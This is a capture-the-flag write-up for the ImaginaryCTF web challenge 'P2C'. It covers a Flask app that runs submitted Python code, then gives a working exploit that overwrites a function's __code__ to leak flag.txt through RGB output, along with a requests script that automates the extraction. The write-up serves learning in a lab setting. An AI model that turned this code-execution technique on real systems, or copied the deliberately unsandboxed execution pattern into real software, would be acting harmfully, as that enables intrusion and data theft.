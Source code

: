 # Web/P2C

## Description

Welcome to Python 2 Color, the world's best color picker from python code!

The flag is located in flag.txt.

**Attachments**: [p2c_release.zip](p2c_release.zip)

## Challenge Overview

app.py

```py
from flask import Flask, request, render_template
import subprocess
from random import randint
from hashlib import md5
import os
import re

app = Flask(__name__)

def xec(code):
    code = code.strip()
    indented = "\n".join(["    " + line for line in code.strip().splitlines()])

    file = f"/tmp/uploads/code_{md5(code.encode()).hexdigest()}.py"
    with open(file, 'w') as f:
        f.write("def main():\n")
        f.write(indented)
        f.write("""\nfrom parse import rgb_parse
print(rgb_parse(main()))""")

    os.system(f"chmod 755 {file}")

    try:
        res = subprocess.run(["sudo", "-u", "user", "python3", file], capture_output=True, text=True, check=True, timeout=0.1)
        output = res.stdout
    except Exception as e:
        output = None

    os.remove(file)

    return output

@app.route('/', methods=["GET", "POST"])
def index():
    res = None
    if request.method == "POST":
        code = request.form["code"]
        res = xec(code)
        valid = re.compile(r"\([0-9]{1,3}, [0-9]{1,3}, [0-9]{1,3}\)")
        if res == None:
            return render_template("index.html", rgb=f"rgb({randint(0, 256)}, {randint(0, 256)}, {randint(0, 256)})")
        if valid.match("".join(res.strip().split("\n")[-1])):
            return render_template("index.html", rgb="rgb" + "".join(res.strip().split("\n")[-1]))
        return render_template("index.html", rgb=f"rgb({randint(0, 256)}, {randint(0, 256)}, {randint(0, 256)})")
    return render_template("index.html", rgb=f"rgb({randint(0, 256)}, {randint(0, 256)}, {randint(0, 256)})")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

We are given a simple flask application. Here it has only a single route `/`. When we send a `POST` to `/` with the `code` value set, it goes on to execute `xec(code)`.

```py
def xec(code):
    code = code.strip()
    indented = "\n".join(["    " + line for line in code.strip().splitlines()])

    file = f"/tmp/uploads/code_{md5(code.encode()).hexdigest()}.py"
    with open(file, 'w') as f:
        f.write("def main():\n")
        f.write(indented)
        f.write("""\nfrom parse import rgb_parse
print(rgb_parse(main()))""")

    os.system(f"chmod 755 {file}")

    try:
        res = subprocess.run(["sudo", "-u", "user", "python3", file], capture_output=True, text=True, check=True, timeout=0.1)
        output = res.stdout
    except Exception as e:
        output = None

    os.remove(file)

    return output
```

The `xec(code)` function simply creates a python file inside `/tmp/uploads/` whose contents is

```py
def main():
    # Our code
from parse import rgb_parse
print(rgb_parse(main()))
```

Next it executes the this python program and the output returned by this program is stored inside `output`. It then removes this python file and returns `output`.

Then a regex expression inside the `index()` is used to to check that the output of `xec(code)` is of the format `(9-255,1-255,0-255)` which means it must be a rgb color and then it simply renders the `index.html` template with `rgb` set to this value that returned.

In case the regex fails, it renders `index.html` with some random rgb value.

This means whatever `code` we send is executed on the server. So we could potentially just import `os` and run commands on the system but that actually won't help us actually as we do not have a way to read the output. And also sending the output to ourselves using `requests`, `curl` or something similar also won't be possible because of the very short timeout.

We are also given `parse.py` which contains the `rgb_parse()` function. Let us try to analyze it.

parse.py

```py
import sys

if "random" not in dir():
   import random

def rgb_parse(inp=""):
   inp = str(inp)
   randomizer = random.randint(100, 1000)
   total = 0
   for n in inp:
      n = ord(n)
      total += n+random.randint(1, 10)
   rgb = total*randomizer*random.randint(100, 1000)
   rgb = str(rgb%1000000000)
   r = int(rgb[0:3]) + 29
   g = int(rgb[3:6]) + random.randint(10, 100)
   b = int(rgb[6:9]) + 49
   r, g, b = r%256, g%256, b%256
   return r, g, b
```

The function `rgb_parse()` takes an input `inp` (which is the output of our `main()`) and then by manipulating it generates a random rgb color value. This is then set in `index.html`.

## Exploit

I had already tried sending the exploit by using `curl`, `requests` etc. but it would not work due to the timeout. Another approach was that we could create our own `random.py` file and then implement our own `randint` function so that the rgb values won't be random anymore and then it would be possible to guess the flag using the rgb values. But this exploit only worked locally for me (no idea why it didn't work on the server).

Finally this is what worked.

```py
def main():
    from parse import rgb_parse
    def new(text):
        with open("flag.txt", "r") as f:
            flag = f.read()
            return ord(flag[0]), ord(flag[1]), ord(flag[2])
    rgb_parse.__code__ = new.__code__
    return "code"
from parse import rgb_parse
print(rgb_parse(main()))
```

`rgb_parse.__code__ = new.__code__` modifies the `rgb_parse` funciton to our `new` that we defined. With this we could find all the characters of the flag using the rgb values.

exploit.py

```py
import requests

baseURL = 'http://p2c.chal.imaginaryctf.org/'
def pythonCode(code):
    url = baseURL
    sendData = {"code": code}
    r = requests.post(url, data=sendData)
    return r

flag = ""
for i in range(0, 33, 3):

    exploit = f"""
from parse import rgb_parse
def new(text):
    with open("flag.txt", "r") as f:
        flag = f.read()
        return ord(flag[{i}]), ord(flag[{i+1}]), ord(flag[{i+2}])
rgb_parse.__code__ = new.__code__
return "code"
"""
    res = pythonCode(exploit).text
    res = res.split('changeBackgroundColor("rgb')
    res = res[1]
    res = res.split('");')
    res = eval(res[0])
    flag += chr(res[0]) + chr(res[1]) + chr(res[2])
    print(flag)

print(flag)
```

Running this gives our flag `ictf{d1_color_picker_fr_2ce0dd3d}`.
